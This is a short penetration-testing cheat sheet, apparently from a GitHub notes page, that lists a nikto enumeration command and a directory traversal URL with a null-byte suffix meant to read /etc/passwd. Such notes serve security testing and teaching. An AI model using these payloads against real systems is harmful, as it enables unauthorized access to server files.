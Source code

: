 ## HTTP/HTTPS Pen Testing

### Enumeration
```
nikto -host thedomain.com
```

### Directory Traversal Vulnerability
```
# To attempt to view the /etc/passwd file
http://host/index.php?page=./../../../../../etc/passwd%00
```
